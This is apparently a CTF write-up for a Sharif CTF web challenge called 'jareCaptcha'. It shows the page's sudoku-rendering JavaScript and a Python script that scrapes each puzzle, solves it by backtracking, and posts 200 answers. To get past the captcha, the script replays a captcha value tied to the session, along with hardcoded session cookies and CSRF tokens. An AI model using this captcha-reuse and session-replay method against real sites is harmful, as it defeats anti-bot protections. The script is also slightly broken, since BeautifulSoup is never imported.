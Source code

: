 #jareCaptcha

**Category:** WEB, PPC

Can you solve some sudoku challenges?

##Solution

In this challenge we are given a webpage with a sudoku table that we should solve. Also a captcha to protect page from being brute-forced.
Requested task is to solve the sudoku for 200 times and submit our results to get the flag.
Viewing source code of challenge, we will see that there is a javascript code for rendering sudoku table in client-side.

```javascript
function sudoku(w){
   var str
   str = "072106048410000000030874291090052386765080012203961405051390004320040107000000600";
   var j
   var a,b,l1,l2,l3,l4,t
   t="";
   l1="<td bgcolor=";
   l2=">&nbsp;&nbsp;</td>";
   l3="<td bgcolor=";
   l4="</td>";
   for (j=0;j<9;j++){
        if(j==0 | j==1 | j==2 | j==6 | j==7 | j==8){a="DDDDDD";b="FFFFFF";}
        if(j==3 | j==4 | j==5){b="DDDDDD";a="FFFFFF";}
        t+="<TR>";
        if (str.charAt(0+j*9)=="0"){t+=l1+a+l2;}else{t+=l3+a+">"+str.charAt(0+j*9)+l4;}
        if (str.charAt(1+j*9)=="0"){t+=l1+a+l2;}else{t+=l3+a+">"+str.charAt(1+j*9)+l4;}
        if (str.charAt(2+j*9)=="0"){t+=l1+a+l2;}else{t+=l3+a+">"+str.charAt(2+j*9)+l4;}
        if (str.charAt(3+j*9)=="0"){t+=l1+b+l2;}else{t+=l3+b+">"+str.charAt(3+j*9)+l4;}
        if (str.charAt(4+j*9)=="0"){t+=l1+b+l2;}else{t+=l3+b+">"+str.charAt(4+j*9)+l4;}
        if (str.charAt(5+j*9)=="0"){t+=l1+b+l2;}else{t+=l3+b+">"+str.charAt(5+j*9)+l4;}
        if (str.charAt(6+j*9)=="0"){t+=l1+a+l2;}else{t+=l3+a+">"+str.charAt(6+j*9)+l4;}
        if (str.charAt(7+j*9)=="0"){t+=l1+a+l2;}else{t+=l3+a+">"+str.charAt(7+j*9)+l4;}
        if (str.charAt(8+j*9)=="0"){t+=l1+a+l2;}else{t+=l3+a+">"+str.charAt(8+j*9)+l4;}
        t+="</TR>\n";
   }
   document.getElementById(w).innerHTML="<table style='text-align: center; vertical-align: middle; width: 270px; height: 270px;' border=2 cellpadding=0 cellspacing=0>\n"+t+"</table>\n";
}
```

Looking at javascript source we see that there is a variable named "str" that have the sudoko table's field values each time the page loads.
So the task is clear. we should first send a request to server, receive this value, solve this sudoku having "str" variable value and then send our result with captcha value.
But the tricky point is the captcha. Cause it's a little hard to crack this captcha each time.
Thanks to my teamtames that noticed once a captcha is created for our session, we can access to it's value everytime we send a request with our session parameters.
It means that if we send a request to "http://ctf.sharif.edu:8084/jarecap?pool=images/&(\d*)" to generate a new captcha, We can send the value of this captcha
for unlimited times if we send requests with our session.

The python code for generate this process is given as below:

```python
from PIL import Image
import sys
import urllib
import json
import re
import requests


def findNextCellToFill(grid, i, j):
    for x in range(i,9):
        for y in range(j,9):
            if grid[x][y] == 0:
                return x,y
    for x in range(0,9):
        for y in range(0,9):
            if grid[x][y] == 0:
                return x,y
    return -1,-1


def isValid(grid, i, j, e):
    rowOk = all([e != grid[i][x] for x in range(9)])
    if rowOk:
            columnOk = all([e != grid[x][j] for x in range(9)])
            if columnOk:
                    # finding the top left x,y co-ordinates of the section containing the i,j cell
                    secTopX, secTopY = 3 *(i/3), 3 *(j/3)
                    for x in range(secTopX, secTopX+3):
                            for y in range(secTopY, secTopY+3):
                                    if grid[x][y] == e:
                                            return False
                    return True
    return False


def solveSudoku(grid, i=0, j=0):
    i,j = findNextCellToFill(grid, i, j)
    if i == -1:
        return True
    for e in range(1,10):
        if isValid(grid,i,j,e):
            grid[i][j] = e
            if solveSudoku(grid, i, j):
                return True
            # Undo the current cell for backtracking
            grid[i][j] = 0
    return False


def create_sudoku_list(s_str):
    r = []
    for i in range(len(s_str)/9):
        r.append([int(x) for x in s_str[9*i:9*i+9]])
    return r


def return_back_to_str(s_list):
    return ''.join([''.join([str(i) for i in x]) for x in s_list])


# s = requests.Session()
url = "http://ctf.sharif.edu:8084/"
cookies = dict(csrftoken='2lpf6Krl96cbpU5NLVKiqEOlANQ5uLJEwutMwSLzyg5oNMhwsUcnB1Farvic7uco',
               sessionid='xxs408hfkrfj73dpv4pvsdbwh5ku3m9e', PHPSESSID= 'qjp47pv1548uajdfhchddo5js3')


while True:
    r = requests.get(url, cookies=cookies)
    soup = BeautifulSoup(r.text, 'lxml')
    data  = soup.find_all("script")[0].string
    data = data.split('\n')[4]
    sudoku = data.split('"')[1]
    xx = create_sudoku_list(sudoku)
    result = solveSudoku(xx)
    solved = return_back_to_str(xx)
    csrftoken = str(r.headers).split('csrftoken=')[1].split(';')[0]
    post_data = {'csrfmiddlewaretoken': csrftoken,
                 'solvedsudoku': solved, 'captcha': 'HRU7CS6YL5', 'submit': 'Submit'}
    r = requests.post(url, data=post_data, cookies=cookies)
    print r.text
```

I also captured the values for csrf-token each time the page loads because of django-csrf-middleware-protection.
Because if we do'nt send this value within our requests, Django will raise an 403 forbidden exception. (And i know if i wrote my requests better, i can handle this problem with python easily... but we didn't have that much time to find the correct python code...:D)

& After 200 request's we get the flag in requests text data.